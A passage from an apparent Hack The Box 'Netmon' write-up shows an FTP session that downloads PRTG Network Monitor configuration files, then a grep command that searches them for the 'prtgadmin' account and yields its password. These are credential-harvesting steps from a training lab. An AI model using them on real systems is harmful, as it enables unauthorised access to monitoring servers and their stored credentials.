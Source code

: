 ```
02-03-19  12:15AM       <DIR>          TEMP
02-03-19  08:05AM       <DIR>          Templates
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.
ftp> cd "Application Data/Paessler/PRTG Network Monitor"
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
06-28-19  06:24AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
06-28-19  06:24AM       <DIR>          Logs (Web Server)
02-25-19  08:01PM       <DIR>          Monitoring Database
06-28-19  06:54AM              1287578 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-28-19  06:25AM              1647701 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1287578 bytes received in 3.43 secs (366.5319 kB/s)
ftp> get "PRTG Configuration.old"
local: PRTG Configuration.old remote: PRTG Configuration.old
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 3.05 secs (380.7779 kB/s)
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 3.04 secs (370.2494 kB/s)
ftp>
```
<br> Knowing that the default admin user for PRTG is `prtgadmin` I searched for that string in the 3 configuration files :
`cat * | grep -A 20 -B 20 "prtgadmin"`
![](/images/hackthebox/netmon/4.png)
<br> I got the password which was `PrTg@dmin2018` :